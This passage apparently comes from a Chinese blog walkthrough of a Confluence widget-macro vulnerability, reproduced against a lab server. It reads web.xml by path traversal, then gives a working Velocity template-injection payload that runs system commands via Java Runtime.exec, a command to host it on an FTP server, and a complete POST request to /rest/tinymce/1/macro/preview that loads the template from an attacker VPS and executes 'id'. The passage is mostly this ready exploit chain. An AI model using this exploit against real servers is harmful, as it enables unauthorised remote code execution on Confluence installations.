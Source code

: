 


![](https://img-blog.csdnimg.cn/20210131225909802.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



读取../web.xml文件



![](https://img-blog.csdnimg.cn/20210131230040834.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



### RCE



由于该文件是一个Velocity模板，因此我们可以通过模板注入（SSTI）来执行任意命令。创建文件 r.vm



```
#set ($exp="exp")      
#set ($a=$exp.getClass().forName("java.lang.Runtime").getMethod("getRuntime",null).invoke(null,null).exec($command))      
#set ($input=$exp.getClass().forName("java.lang.Process").getMethod("getInputStream").invoke($a))      
#set($sc = $exp.getClass().forName("java.util.Scanner"))      
#set($constructor = $sc.getDeclaredConstructor($exp.getClass().forName("java.io.InputStream")))      
#set($scan=$constructor.newInstance($input).useDelimiter("\\A"))      
#if($scan.hasNext())      
    $scan.next()      
#end
```




用python启动FTP服务



```
python -m pyftpdlib -p 9999
```




![](https://img-blog.csdnimg.cn/20210131225528651.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzM2MTE5MTky,size_16,color_FFFFFF,t_70)



发送数据包



```
POST /rest/tinymce/1/macro/preview HTTP/1.1      
Host: 192.168.10.129:8090      
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:55.0) Gecko/20100101 Firefox/55.0      
Accept: text/plain, */*; q=0.01      
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3      
Accept-Encoding: gzip, deflate, br      
Content-Type: application/json; charset=utf-8      
X-Requested-With: XMLHttpRequest      
Referer: http://192.168.10.129:8090/pages/resumedraft.action?draftId=786457&draftShareId=056b55bc-fc4a-487b-b1e1-8f673f280c23&      1
Content-Length: 197      1
X-Forwarded-For: 127.0.0.2      1
Connection: keep-alive       1
{"contentId":"1","macro":{"name":"widget","params":{"url":"https://www.viddler.com/v/test","width":"1000","height":"1000","_template":"ftp://VPS的ip:9999/r.vm","command":"id"},"body":""}}
```
